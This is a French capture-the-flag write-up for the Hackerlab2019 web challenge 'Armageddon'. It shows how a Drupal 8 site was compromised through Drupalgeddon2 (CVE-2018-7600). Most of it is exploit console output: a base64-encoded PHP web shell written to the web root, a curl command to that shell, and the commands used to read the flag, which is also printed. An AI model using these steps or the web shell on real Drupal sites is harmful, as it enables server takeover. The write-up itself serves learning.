



# Hackerlab2019 – Armageddon (End Game) ?

* **Categorie:** Web
* **Points:** 300

## Challenge

Votre unité de cyber-amazones est envoyée pour défendre le pays contre l'Armageddon invoqué par DJAKPATAGLO. C'est le clap de fin du #Hackerlab2019.

http://qualif.hackerlab.bj:8082


## Solution
Le lien de ce challenge nous renvoyait vers un site drupal.<br>


D'abord, commençons par vérifier la version de Drupal et voyons si elle a des vulnérabilités. En affichant, le code source de la page qui s'est affichée, nous avions pu constaté que le site fonctionne avec la version 8 de drupal.
```html
<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
```


L'outil Searchsploit sous kali nous a permi de rechercher les exploits disponibles dans Exploit-DB sans utiliser internet.


Nous avons pu identifier que Drupal 8 est vulnérable à <b>Drupalgeddon2</b>. Suite à une recherche rapide sur Google, nous avons compris que cette vulnérabilité référencée CVE-2018-7600 permet à un attaquant distant d'exécuter du code arbitraire sur le système afin d'un prendre le contrôle.

Notre objectif maintenant est d'exploiter cette faille pour trouver le flag afin de continuer avec d'autres challenges.

Ainsi, après quelques recherches sur google, nous avons récupéré un exploit qui permet de déployer un `<< reverse shell >>` afin d'exécuter n'importe quelle commande de notre choix sur le système où le site a été hébergé.



L'exploit a été écrit dans le language [Ruby](https://fr.wikipedia.org/wiki/Ruby).

```bash
lick@host:~$ ./drupalgeddon2.rb qualif.hackerlab.bj:8082
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://qualif.hackerlab.bj:8082/
--------------------------------------------------------------------------------
[+] Header : v8 [X-Generator]
[!] MISSING: http://qualif.hackerlab.bj:8082/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://qualif.hackerlab.bj:8082/core/CHANGELOG.txt    (HTTP Response: 200)
[!] MISSING: http://qualif.hackerlab.bj:8082/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Header : v8 [X-Generator]
[!] MISSING: http://qualif.hackerlab.bj:8082/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://qualif.hackerlab.bj:8082/core/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://qualif.hackerlab.bj:8082/includes/database.inc    (HTTP Response: 404)
[+] Found  : http://qualif.hackerlab.bj:8082/    (HTTP Response: 200)
[+] Metatag: v8.x [Generator]
[!] MISSING: http://qualif.hackerlab.bj:8082/    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/register)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: mail)
[i] Payload: echo PCEKZFIX
[+] Result : PCEKZFIX
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://qualif.hackerlab.bj:8082/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://qualif.hackerlab.bj:8082/shell.php' -d 'c=hostname'
97c08f3b7cc3>> ls
LICENSE.txt
README.txt
autoload.php
composer.json
composer.lock
core
example.gitignore
flag.txt
hello.txt
index.php
modules
profiles
robots.txt
shell.php
sites
themes
update.php
vendor
web.config
97c08f3b7cc3>> cat flag.txt
CTF_CyberAmazonWinArmagedon
97c08f3b7cc3>>
```
Enfin, nous pouvons passer à un autre challenge en soumettant le flag `CTF_CyberAmazonWinArmagedon` pour ce challenge!

Enjoy,<br>
\-[Kyb3R](https://twitter.com/LickosA)
